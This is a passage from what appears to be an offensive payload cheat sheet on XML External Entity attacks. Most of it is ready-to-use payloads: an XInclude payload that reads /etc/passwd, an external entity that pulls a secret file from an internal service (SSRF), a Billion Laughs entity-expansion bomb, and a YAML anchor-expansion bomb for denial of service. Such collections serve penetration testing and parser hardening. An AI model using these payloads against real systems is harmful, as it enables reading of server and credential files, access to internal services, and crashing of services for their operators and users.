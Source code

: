 ### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

## Exploiting XXE to perform a deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
